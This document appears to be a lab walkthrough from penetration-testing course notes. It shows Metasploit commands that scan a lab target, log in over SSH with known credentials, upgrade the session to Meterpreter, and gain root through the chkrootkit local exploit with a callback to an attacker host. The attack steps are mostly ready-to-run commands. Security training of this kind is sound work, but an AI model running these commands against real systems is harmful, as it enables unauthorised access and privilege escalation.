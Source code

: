 ------

## Lab 3 - Persistence

> 🔬 Same as [Privilege Escalation - Rootkit Scanner](https://attackdefense.com/challengedetails?cid=1396)
>
> - Target IP: `192.101.97.3`
> - Metasploit **`post/linux/gather/`** credentials dumping modules

```bash
ip -br -c a
	192.101.97.2/24
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.101.97.3
setg RHOST 192.101.97.3
workspace -a Linux_Persistence
db_nmap -sV 192.101.97.3
```

```bash
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
```

### Exploitation

```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
options
set USERNAME jackie
set PASSWORD password
run
sessions
```

- Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session

```bash
sessions -u 1
```

### Privilege Escalation

```bash
search chkrootkit
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST 192.101.97.2
run

# CTRL+Z to background the shell session
```
